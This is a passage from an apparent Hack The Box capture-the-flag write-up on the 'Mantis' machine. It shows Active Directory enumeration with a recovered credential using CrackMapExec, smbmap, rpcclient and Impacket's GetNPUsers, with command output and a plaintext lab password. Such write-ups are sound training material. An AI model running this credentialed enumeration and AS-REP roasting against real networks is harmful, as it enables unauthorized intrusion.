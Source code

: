 Now that I have a Windows credential, there is potentially a lot more to check
as far as enumeration. (None of it ended being necessary, but I’ll quickly
show it.)

### SMB - TCP 445

CrackMapExec shows that the creds are valid:

    
    
    root@kali# crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
    SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
    

Since it doesn’t say `(Pwned!)`, I can’t likely get execution through SMB.

I can see two shares now:

    
    
    root@kali# smbmap -H 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
    [+] IP: 10.10.10.52:445 Name: 10.10.10.52                                       
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            C$                                                      NO ACCESS       Default share
            IPC$                                                    NO ACCESS       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            SYSVOL                                                  READ ONLY       Logon server share 
    

I poked around in both, but didn’t find much.

### RPC - TCP 445

james can connect to RPC and list users:

    
    
    root@kali# rpcclient -U htb.local/james 10.10.10.52
    Enter HTB.LOCAL\james's password: 
    rpcclient $> enumdomusers
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[james] rid:[0x44f]
    

Nothing too exciting here.

### Kerberos

With a user, now I can dump the full list of ASP-REP vulnerable users, but
there aren’t any:

    
    
    root@kali# GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
    